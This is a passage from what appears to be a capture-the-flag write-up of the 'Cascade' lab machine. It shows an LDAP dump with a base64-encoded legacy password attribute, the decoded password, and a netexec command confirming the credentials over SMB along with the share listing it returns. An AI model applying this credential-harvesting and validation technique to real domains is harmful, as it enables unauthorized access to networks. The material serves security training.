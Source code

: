 ```bash
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 133771317813752455
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

# {4026EDF8-DBDA-4AED-8266-5A04B80D9327}, Policies, System, cascade.local
dn: CN={4026EDF8-DBDA-4AED-8266-5A04B80D9327},CN=Policies,CN=System,DC=cascade
 ,DC=local

# {D67C2AD5-44C7-4468-BA4C-199E75B2F295}, Policies, System, cascade.local
dn: CN={D67C2AD5-44C7-4468-BA4C-199E75B2F295},CN=Policies,CN=System,DC=cascade
 ,DC=local

# Util, Services, Users, UK, cascade.local
dn: CN=Util,OU=Services,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Util
distinguishedName: CN=Util,OU=Services,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109194521.0Z
```

The field is:
```bash
cascadeLegacyPwd: clk0bjVldmE=
```

Base64 decoding this we are provided with:
```bash
rY4n5eva
```

Let's check the credentials are valid:
```bash
netexec smb $target -u "r.thompson" -p "rY4n5eva" --shares

SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)                                                                                                                                                     
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva                                                                    
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares                                                                                    
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark                                                                   
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------                                                                   
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin                                                             
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```

